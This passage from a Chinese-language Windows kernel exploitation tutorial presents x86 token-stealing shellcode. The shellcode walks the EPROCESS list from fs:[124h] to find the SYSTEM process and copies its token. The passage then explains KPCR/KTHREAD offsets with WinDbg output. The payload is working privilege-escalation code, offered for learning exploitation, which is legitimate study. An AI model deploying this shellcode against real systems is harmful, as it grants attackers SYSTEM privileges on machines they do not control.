![](https://raw.githubusercontent.com/jiancanxuepiao/Pic/master/2019-7-3/01.png)


 
我们将上面的操作变为汇编的形式如下

```
void ShellCode()
{
    _asm
    {
        nop
        nop
        nop
        nop
        pushad
        mov eax,fs:[124h]        // 找到当前线程的_KTHREAD结构
        mov eax, [eax + 0x50]    // 找到_EPROCESS结构
        mov ecx, eax
        mov edx, 4    // edx = system PID(4)
 
        // 循环是为了获取system的_EPROCESS
    find_sys_pid:
        mov eax, [eax + 0xb8]    // 找到进程活动链表
        sub eax, 0xb8            // 链表遍历
        cmp [eax + 0xb4], edx    // 根据PID判断是否为SYSTEM
        jnz find_sys_pid
 
        // 替换Token
        mov edx, [eax + 0xf8]
        mov [ecx + 0xf8], edx
        popad
        ret
    }
}
```
fs寄存器在`Ring0`中指向一个称为`KPCR`的数据结构，即FS段的起点与 KPCR 结构对齐，而在`Ring0`中fs寄存器一般为0x30，这样fs:[124]就指向`KPRCB`数据结构的第四个字节。由于 KPRCB 结构比较大，在此就不列出来了。查看其数据结构可以看到第四个字节指向`CurrentThead`(KTHREAD类型)。这样fs:[124]其实是指向当前线程的`_KTHREAD`

```
kd> dt nt!_KTHREAD
   +0x000 Header           : _DISPATCHER_HEADER
   +0x010 CycleTime        : Uint8B
   +0x018 HighCycleTime    : Uint4B
   +0x020 QuantumTarget    : Uint8B
   +0x028 InitialStack     : Ptr32 Void
   +0x02c StackLimit       : Ptr32 Void
   +0x030 KernelStack      : Ptr32 Void
   +0x034 ThreadLock       : Uint4B
   +0x038 WaitRegister     : _KWAIT_STATUS_REGISTER
   +0x039 Running          : UChar
   +0x03a Alerted          : [2] UChar
   +0x03c KernelStackResident : Pos 0, 1 Bit
   +0x03c ReadyTransition  : Pos 1, 1 Bit
   +0x03c ProcessReadyQueue : Pos 2, 1 Bit
   +0x03c WaitNext         : Pos 3, 1 Bit
   +0x03c SystemAffinityActive : Pos 4, 1 Bit
   +0x03c Alertable        : Pos 5, 1 Bit
   +0x03c GdiFlushActive   : Pos 6, 1 Bit
   +0x03c UserStackWalkActive : Pos 7, 1 Bit
   +0x03c ApcInterruptRequest : Pos 8, 1 Bit
   +0x03c ForceDeferSchedule : Pos 9, 1 Bit
   +0x03c QuantumEndMigrate : Pos 10, 1 Bit
   +0x03c UmsDirectedSwitchEnable : Pos 11, 1 Bit
   +0x03c TimerActive      : Pos 12, 1 Bit
```